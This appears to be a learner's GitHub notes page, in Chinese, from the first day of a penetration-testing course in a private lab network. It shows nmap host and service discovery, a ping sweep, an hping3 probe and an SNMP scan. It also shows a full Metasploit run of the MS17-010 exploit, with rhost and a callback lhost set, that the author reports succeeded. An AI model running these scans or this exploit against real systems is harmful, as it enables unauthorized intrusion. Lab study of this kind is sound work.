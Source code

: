 Day1
===
Host Discovery: IP (arp, icmp, 25, 80, 445, 3389)
---
    sudo nmap –n –sn –PS22,80,445,3389 192.168.0.* –oG - |grep Up | cut –d" " –f2 > iplist
    利用常見的連接埠探測機器是否有開啟這些連接埠
<img  alt="image" src="https://github.com/user-attachments/assets/20801a33-6b66-4cc0-b612-f9983fd3ae7b">

**補充**

1.nmap預設只掃1000常用的連接埠
            
2.nmap沒有權限只會進行TCP connect scan只能掃80、443，若要完整的掃描開放端口需加sudo，因要進行SYN掃描要創建數據包，root權限才能創建

    若環境無法安裝nmap可以利用迴圈
    for i in {1..254}; do (ping -c 1 192.168.0.$i | grep "bytes from" &); done
<img  alt="image" src="https://github.com/user-attachments/assets/b5b183ea-2680-48be-bdd7-b5c513864579">

    UDP Scan 可清楚看到137有回應，138可能有開但被過濾,139完全沒有回應

<img alt="image" src="https://github.com/user-attachments/assets/73263ac5-23e4-4f12-82d8-10c4e4fd1e16">

    sudo hping3 192.168.0.7 -n -S -c 3 -p 80，利用hping發送封包

<img  alt="image" src="https://github.com/user-attachments/assets/596f3f6f-44cc-4d4c-871d-62e507fe2501">

Service/OS Discovery
---
        
    sudo nmap -n -p445,3389 -sVC 192.168.0.21，發現此台主機有開啟smb v1
<img alt="image" src="https://github.com/user-attachments/assets/c6494a73-cc45-4c6b-aa4c-b005a88a254e">

    sudo nmap -n --script=smb-vuln-ms17-010.nse 192.168.0.21 使用nmap上的腳本進行scan
<img alt="image" src="https://github.com/user-attachments/assets/2950f88e-461c-4a1c-ad3d-08a04613a8cc">

Initial Access - Exploit MS17_010
---

    msfconsole -q 執行metasploit
    search ms17_010

<img alt="image" src="https://github.com/user-attachments/assets/6ad42976-a471-4f71-b7b2-4964d0f2f2f7">

    use 2
<img  alt="image" src="https://github.com/user-attachments/assets/46192082-9fcc-437f-bdfe-37eeb45a7ca2">

    show options

<img  alt="image" src="https://github.com/user-attachments/assets/9b8530f0-dfb7-4b49-9a34-1ee8a7d78329">

    set rhost 192.168.0.21
    set lhost 192.168.0.18
    run
<img  alt="image" src="https://github.com/user-attachments/assets/cc831b10-7387-4047-a2bd-33993b9dd238">

    成功打進去192.168.0.21
<img  alt="image" src="https://github.com/user-attachments/assets/d5bb80d8-953f-4724-a11a-a64047a7b9d9">

ENUM SNMP - UDP 161
---
    sudo nmap -n -p161 -sU --open 192.168.0.* -oG - | grep Up | cut -d' ' -f2 > snmp_ip.txt
<img width="455" alt="image" src="https://github.com/user-attachments/assets/876c4d64-92e6-448b-ae50-b71cccd310d7">

